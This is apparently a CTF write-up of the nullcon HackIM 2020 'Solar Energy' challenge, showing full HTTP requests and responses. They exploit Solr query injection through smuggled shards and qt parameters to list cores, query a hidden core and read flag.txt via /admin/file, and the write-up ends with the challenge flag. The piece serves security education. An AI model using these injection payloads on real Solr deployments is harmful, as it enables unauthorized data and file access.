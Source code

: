```yaml
---
title: "nullcon HackIM 2020 - Solar Energy"
date: 2020-02-17T23:10:00+01:00
showDate: true
draft: false
tags: ["ctf","web","solr","query","injection"]
---
```


solar-energy
============
> ```TLDR; Solr query injection, which lead to file read.```

On the previous weekend I played nullcon HackIM 2020 CTF. In the end our team managed to take 2nd place. There was couple of interesting challenges and one of them was challenge involving **Apache Solr**, software which I don't have too much expirience with. I heavily used Burp and Hackvertor extension, that helped me with URL encoding (these '`<@urlencode>`' tags in the requests).

On the main page of the challenge there was simple application that allowed you search for a book by entering some phrase. There was only one simple HTML form with one input field, so pretty straightforward.

After a little bit of poking around with the input we managed to crash app:

```http
GET /search.php?search=book" HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8080/
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Mon, 10 Feb 2020 14:14:05 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.1.8
Content-Length: 281
Connection: close
Content-Type: application/json
    
{"error":{"metadata":["error-class","org.apache.solr.common.SolrException","root-error-class","org.apache.solr.parser.TokenMgrError"],"msg":"org.apache.solr.search.SyntaxError: Cannot parse 'book\"': Lexical error at line 1, column 6.  Encountered: <EOF> after : \"\"","code":400}}
```

After that we knew what we are dealing with since the error was pretty verbose. The first thing I googled was `Solr injection`. Googling lead me to [this github repo](https://github.com/veracode-research/solr-injection). It basicly contains description and payloads for `Solr query injection` vulnerability. I tested most of them, but none seemd to work. However we were sure that we can inject something, because of the error we've got eariler.  

Application is vulnerable to Solr query injection when frontend application is issuing HTTP request to Solr API **without** url encoding query value. This allows the user for passing more that just one parameter in the request to the Solr backend.  

After couple more hours and dozens of Solr documentation pages later we managed to list all the cores, which are basicly the same thing what indexes are in Elastic Search or a database is in traditional, relational database.

```http
GET /search.php?search=<@urlencode_9>search=book&shards=localhost%3a8983/&qt=/solr/admin/cores%3faction%3dSTATUS%26wt%3djson<@/urlencode_9> HTTP/1.1
Host: web3.ctf.nullcon.net:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web3.ctf.nullcon.net:8080/
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Mon, 10 Feb 2020 14:38:22 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.1.8
Content-Length: 2792
Connection: close
Content-Type: application/json
    
<JUNK>    
  \"SeCrEtSeArCh8888\":{\n      \"name\":\"SeCrEtSeArCh8888\",\n      \"instanceDir\":\"\/var\/solr\/data\/SeCrEtSeArCh8888\",\n      \"dataDir\":\"\/var\/solr\/data\/SeCrEtSeArCh8888\/data\/\",\n      \"config\":\"solrconfig.xml\",\n      \"schema\":\"managed-schema\",\n   
<JUNK>    
  \"hackimsearch\":{\n      \"name\":\"hackimsearch\",\n      \"instanceDir\":\"\/var\/solr\/data\/hackimsearch\",\n      \"dataDir\":\"\/var\/solr\/data\/hackimsearch\/data\/\",\n      \"config\":\"solrconfig.xml\",\n      \"schema\":\"managed-schema\",\n 
<JUNK>    
```

In the request we injected two additional Solr request parameters, **shards** and **qt**. Both of them combined allowed for rewriting the request URL. Important thing is that the values of these parameters had to be double url encoded, since they will be decoded and passed to another HTTP request. Another thing to notice is that we had to smuggle another two paramters in **qt** parameter, which were **action** and **wt**. First one is responsible for choosing what action you wanna take and the second one for the response format (if we would pass `json` value we would simply get `500 java.lang.NullPointerException`).  

There were two cores, `hackimsearch`, which contained all the data about books, and the second one called `SeCrEtSeArCh8888`. We listed secret core's documents hoping that there will be a flag somewhere:

```http
GET /search.php?search=<@urlencode_all_8>book&shards=localhost%3a8983/&qt=/solr/SeCrEtSeArCh8888/query%3fq%3d*<@/urlencode_all_8> HTTP/1.1
Host: web3.ctf.nullcon.net:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web3.ctf.nullcon.net:8080/
Connection: close
```
```http
HTTP/1.1 200 OK
Date: Mon, 10 Feb 2020 15:17:27 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.1.8
Content-Length: 186
Connection: close
Content-Type: application/json
    
{"response":{"numFound":1,"start":0,"maxScore":1,"docs":[{"id":"secret","flag":["Great job but flag is not here. Maybe you should hit the filesystem"],"_version_":1658146505195782144}]}}    
```

Unfortunately, not quite there yet. But we knew we were close and what we needed to do next.
After another round of going through the documentation, one thing caught my attention. It was API endpoint `/admin/file`. Issuing request with just **wt** parameter, allowned us for listing of all the files within core's working directory:

```http
GET /search.php?search=<@urlencode_all_8>book&shards=localhost:8983/&qt=/solr/SeCrEtSeArCh8888/admin/file%3fwt%3djson&debug=all<@/urlencode_all_8> HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web3.ctf.nullcon.net:8080/
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Mon, 10 Feb 2020 15:27:45 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.1.8
Content-Length: 1077
Connection: close
Content-Type: application/json
    
{"error":{"metadata":["error-class","org.apache.solr.client.solrj.impl.BaseHttpSolrClient$RemoteSolrException","root-error-class","org.apache.solr.client.solrj.impl.BaseHttpSolrClient$RemoteSolrException"],"msg":"Error from server at null: Expected mime type application\/octet-stream but got text\/plain. {\n  \"responseHeader\":{\n    \"status\":0,\n    \"QTime\":0},\n  \"files\":{\n    \"protwords.txt\":{\n      \"size\":873,\n      \"modified\":\"2020-02-10T10:42:36.990Z\"},\n    \"lang\":{\n      \"directory\":true,\n      \"modified\":\"2020-02-10T10:42:36.990Z\"},\n    \"solrconfig.xml\":{\n      \"size\":49058,\n      \"modified\":\"2020-02-10T10:42:36.990Z\"},\n    \"flag.txt\":{\n      \"size\":50,\n      \"modified\":\"2020-02-10T10:48:37.946Z\"},\n    \"managed-schema\":{\n      \"size\":30770,\n      \"modified\":\"2020-02-10T10:42:54.026Z\"},\n    \"stopwords.txt\":{\n      \"size\":781,\n      \"modified\":\"2020-02-10T10:42:36.990Z\"},\n    \"synonyms.txt\":{\n      \"size\":1124,\n      \"modified\":\"2020-02-10T10:42:36.990Z\"}}}\n","code":200}}    
```
More readable output:
```json
    "protwords.txt":{
     "size":873,
     "modified":"2020-02-10T10:42:36.990Z"},
    "lang":{
     "directory":true,
     "modified":"2020-02-10T10:42:36.990Z"},
    "solrconfig.xml":{
     "size":49058,
     "modified":"2020-02-10T10:42:36.990Z"},
    "flag.txt":{
     "size":50,
     "modified":"2020-02-10T10:48:37.946Z"},
    "managed-schema":{
     "size":30770,
     "modified":"2020-02-10T10:42:54.026Z"},
    "stopwords.txt":{
     "size":781,
     "modified":"2020-02-10T10:42:36.990Z"},
    "synonyms.txt":{
     "size":1124,
     "modified":"2020-02-10T10:42:36.990Z"}
```

So, there it was, `flag.txt`. Now we only need to read it. Luckly I was able to pretty quickly find additional parameters, that, despite content type, read the file:

```http
GET /search.php?search=<@urlencode_all_8>book&shards=localhost%3a8983/&qt=/solr/SeCrEtSeArCh8888/admin/file%3fwt%3djson%26file%3dflag.txt%26contentType%3dtext/plain<@/urlencode_all_8> HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web3.ctf.nullcon.net:8080/
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Mon, 10 Feb 2020 15:37:28 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.1.8
Content-Length: 371
Connection: close
Content-Type: application/json
    
{"error":{"metadata":["error-class","org.apache.solr.client.solrj.impl.BaseHttpSolrClient$RemoteSolrException","root-error-class","org.apache.solr.client.solrj.impl.BaseHttpSolrClient$RemoteSolrException"],"msg":"Error from server at null: Expected mime type application\/octet-stream but got text\/plain. hackim20{Content_Mismatch_helps_you_all_the_Time}\n","code":200}}    
```

```
hackim20{Content_Mismatch_helps_you_all_the_Time}
```
